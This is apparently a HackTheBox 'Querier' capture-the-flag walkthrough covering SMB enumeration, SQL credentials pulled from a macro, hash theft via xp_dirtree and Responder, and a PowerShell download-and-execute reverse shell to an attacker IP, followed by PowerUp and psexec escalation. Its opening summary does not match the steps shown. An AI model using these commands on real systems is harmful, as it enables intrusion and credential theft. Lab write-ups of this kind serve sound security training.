```yaml
---
title: "Querier"
date: 2024-06-17
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "querier", "htb walkthrough", "hackthebox", "writeup"]
---
```


Querier revolves around a vulnerable MS SQL Server configured for remote access and weak credentials.
Initial access was obtained through brute-force of SQL creds and exploitation of xp_cmdshell for command execution.
Enumeration revealed file shares and group memberships that hinted at privilege boundaries within the domain.
Escalation was accomplished via weak permissions on a service binary, allowing path hijacking.
Querier is an excellent case study in SQL server abuse, showing how database misconfigurations can lead directly to OS-level compromise.

## Enumeration

### Nmap

```sh
PORT      STATE SERVICE       REASON  VERSION
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.10.125:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: QUERIER
|     DNS_Domain_Name: HTB.LOCAL
|     DNS_Computer_Name: QUERIER.HTB.LOCAL
|     DNS_Tree_Name: HTB.LOCAL
|_    Product_Version: 10.0.17763

| ms-sql-info: 
|   10.10.10.125:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### SMB

![screenshot](/assets/images/querier1.png)

![screenshot](/assets/images/querier2.png)

![screenshot](/assets/images/querier3.png)

#### Currency Volume Report.xlsm 

Unzip the file 

```sh
unzip 'Currency Volume Report.xlsm'
```

![screenshot](/assets/images/querier4.png)

Macros are usually stored at `xl/vbaProject.bin`. Use strings on it to find all readable strings.

```sh
strings x1/vbaProject.bin
```

![screenshot](/assets/images/querier5.png)

```sh
Uid=reporting;
Pwd=PcwTWTHRwryjc$c6
```

## SQL

```sh
Uid=reporting;
Pwd=PcwTWTHRwryjc$c6
```

```sh
impacket-mssqlclient reporting@10.10.10.125 -windows-auth
```

![screenshot](/assets/images/querier6.png)

We don't have `sa` privileges. Though we can't execute commands using `xp_cmdshell` we can steal hashes of the SQL service account by using `xp_dirtree` or `xp_fileexist`.

```sql
exec xp_dirtree '\\10.10.14.42\share\file'
```

and fire up Responder locally.

```sh
sudo responder -I tun0
```

![screenshot](/assets/images/querier7.png)

### Cracking the hash

![screenshot](/assets/images/querier8.png)

## Foothold

using the creds `mssql-svc : corporate568` we can now login to MSSQL. Let's check if we have SA permissions now.

```sh
impacket-mssqlclient mssql-svc@10.10.10.125 -windows-auth
```

![screenshot](/assets/images/querier9.png)

enable `xp_cmdshell`

```sql
enable_xp_cmdshell
xp_cmdshell whoami
```

![screenshot](/assets/images/querier10.png)

Now we can execute a TCP reverse shell from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download the script and add this line to the end of it. 

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.42 -Port 4444
```

![screenshot](/assets/images/querier11.png)

Run a simple HTTP server and execute it using powershell.

```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.42/Invoke-PowerShellTcp.ps1\')
```

![screenshot](/assets/images/querier12.png)

## Privilege Escalation

After getting a shell [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1) is used to enumerate further. Download the script and execute it on the server uinsg `Invoke-AllChecks`

```powershell
wget https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1
echo Invoke-AllChecks >> PowerUp.ps1

python3 -m http.server 80
iex(new-object.net.webclient).downloadstring("http://10.10.14.42/PowerUp.ps1")
```

![screenshot](/assets/images/querier13.png)

![screenshot](/assets/images/querier14.png)

Login as admin

```sh
impacket-psexec Administrator:'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125
```

![screenshot](/assets/images/querier15.png)
